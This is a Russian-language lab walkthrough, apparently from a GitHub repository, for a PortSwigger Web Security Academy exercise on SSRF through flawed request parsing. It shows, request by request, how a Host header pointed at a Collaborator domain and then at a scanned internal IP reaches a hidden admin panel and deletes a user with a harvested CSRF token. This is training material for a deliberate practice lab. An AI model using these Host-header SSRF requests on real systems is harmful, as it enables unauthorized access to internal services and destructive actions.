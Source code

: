 Перейдем на уязвимый ресурс

Перейдем в `Proxy` -> `HTTP history`
и изучим запросы

и перенесем запрос на корневую страницу в `Repeater`
Далее поймем, что при запросе 
```
GET https://0a290030049f232b82fa5b3f00740043.web-security-academy.net/ HTTP/2

Host: lk9zqgy9754ecoylnb7jk0r0argi4asz.oastify.com
```
где в HOST мы указали URL нашего Collaborator нам пришел ответ
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/1.png)

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/2.png)

Отлично, отправим наш запрос в `Intruder`

```
GET https://0a290030049f232b82fa5b3f00740043.web-security-academy.net/ HTTP/2

Host: 192.168.0.§0§
```
благодаря условию задания мы знаем - что он располагается в сетке 
`192.168.0.0/24`

по ней и произведем поиск 
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/3.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/4.png)

и после выполнения атаки отсортируем по статус коду и получим что существует редирект на `Host: 192.168.0.159`

Вернемся в `Repeater` и посмотрим что там внутри
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/5.png)
```
GET https://0a290030049f232b82fa5b3f00740043.web-security-academy.net/ HTTP/2
Host: 192.168.0.159
```
и отравим запрос

и видим, что нам не разрешено. обидно 
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/6.png)

попробуем это обойти точно так же, как мы и делали выше, вставив полный URL в страницу

```
GET https://0a290030049f232b82fa5b3f00740043.web-security-academy.net/admin HTTP/2
Host: 192.168.0.159
```

в ответ получим 
```
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="aShu5XLx4YUp9iJkQ4GvMT1vIebPbrMD">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
                    </form>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/7.png)

После чего модифицируем запрос 
```
GET https://0a290030049f232b82fa5b3f00740043.web-security-academy.net/admin/delete?csrf=aShu5XLx4YUp9iJkQ4GvMT1vIebPbrMD&username=carlos HTTP/2

Host: 192.168.0.159
```

и получим редирект, а после и уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/5.%20SSRF%20via%20flawed%20request%20parsing/pics%20for%20walkthrough/8.png)
